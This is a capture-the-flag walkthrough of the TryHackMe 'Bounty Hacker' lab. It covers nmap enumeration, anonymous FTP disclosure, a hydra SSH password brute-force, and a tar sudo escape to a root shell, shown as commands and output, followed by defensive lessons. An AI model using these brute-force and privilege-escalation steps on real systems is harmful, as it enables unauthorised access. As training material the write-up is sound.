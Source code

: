 # Try Hack Me - Bounty Hacker

**Categories:** Linux, tar, privesc, security  
**Difficulty:** Easy  

Commands used in this guide use the exported variable $IP (`export IP=10.10.158.229`) in place of the target machine's IP address.

## 1: Enumeration - nmap

Having launched the machine, we perform a basic port scan with nmap (`sudo nmap $IP`) and then a version enumeration scan on the 3 discovered ports (21, 22, and 80) :

```console
┌──(kali㉿kali)-[~/Documents/tthm/bounty-hacker]
└─$ sudo nmap -sV -O -p21,22,80 $IP
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-15 22:34 EDT
Nmap scan report for 10.10.158.229
Host is up (0.10s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
...snip...
```

A quick google / searchsploit search for these versions shows no relevant vulnerabilities, and gobuster finds nothing on 80 with dirbuster's `common.txt` and `directory-list-2.3-medium` wordlists. But anonymous login to the ftp server is successful and reveals 2 files : 

```console
┌──(kali㉿kali)-[~/Documents/tthm/bounty-hacker]
└─$ ftp $IP
Connected to 10.10.158.229.
220 (vsFTPd 3.0.3)
Name (10.10.158.229:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
```
`task.txt` is a to-do list that discloses a possible username (lin) and `locks.txt` appears to be a password list : 

```console
┌──(kali㉿kali)-[~/Documents/tthm/bounty-hacker]
└─$ cat locks.txt
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
...snip...
```

## 2: Foothold - hydra

We use hydra to try the discovered password list with the "jin" username on ssh :

```console
┌──(kali㉿kali)-[~/Documents/tthm/bounty-hacker]
└─$ hydra -l lin -P locks.txt $IP ssh
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-09-15 23:00:54
...snip...
[DATA] attacking ssh://10.10.158.229:22/
[22][ssh] host: 10.10.158.229   login: lin   password: PASSWORD
1 of 1 target successfully completed, 1 valid password found
...snip...
```

and then the discovered password to connect :

```console
┌──(kali㉿kali)-[~/Documents/tthm/bounty-hacker]
└─$ ssh lin@$IP
...snip...
lin@10.10.158.229's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)
Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ id
uid=1001(lin) gid=1001(lin) groups=1001(lin)
...snip...
```

The user flag is at `/home/lin/Desktop/user.txt`.

## 3. Privesc - tar, gtfobin

Running `sudo -l` as the lin user requires the same credentials used for the ssh connection, and shows that lin can run `/bin/tar` as root :

```console
lin@bountyhacker:~/Desktop$ sudo -l
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

[GTFObins provides a (slightly unexpected) way to get a shell using tar](https://gtfobins.github.io/gtfobins/tar/) : 

```console
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

The flags perform the following actions :

* -cf DST SRC : create (-c) a new archive at DST of the file (-f) at SRC
* --checkpoint=INT : display a progress message for each INT records. records are an artefact from tar's days as a tape archive utility - setting checkpoint to 1 guarantees that a checkpoint will be reached, regardless of the size of the input file. In this case, the `--checkpoint` flag is used to provide access to the `--checkpoint-action` flag.
* --checkpoint-action=COMMAND : the action to be performed at each checkpoint. When coupled with `-exec`, `--checkpoint-action` allows tar to execute binaries, scripts, etc. on the host.

The commands executed by `--checkpoint-action` do not drop the elevated privileges granted by sudo, providing a root shell :

```console
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# id
uid=0(root) gid=0(root) groups=0(root)
```

The root flag is at `/root/root.txt`.

## 4. Summary and solutions

This is very much a beginner's box, but there are still a couple of lessons to be learned about how to avoid getting done :

* **FTP anonymous login, information disclosure** : Allowing anonymous login on FTP servers is a classic misconfiguration that can be mitigated in a few seconds - turn it off. In this example, the information disclosed by the misconfiguration is particularly egregious (usernames AND a password list...), but it's worth considering what determined attackers could do with the kind of files commonly hosted on a convenience FTP (a list of employee names and extensions, office schedules and holiday dates, etc.)
* **Principle of least privilege** : sudo access to a binary that can provide a shell is root access. When configuring your environment, you should know what your binaries do - [gtobins](https://gtfobins.github.io/) is a great place to start - and why your users need them. Why does the lin user need sudo access to an archiving utility? If they need to create archives that cannot be read or modified by other users, this can be managed at the group level - always ensure that privileges are scoped to the absolute minimum level required for users to perform their tasks.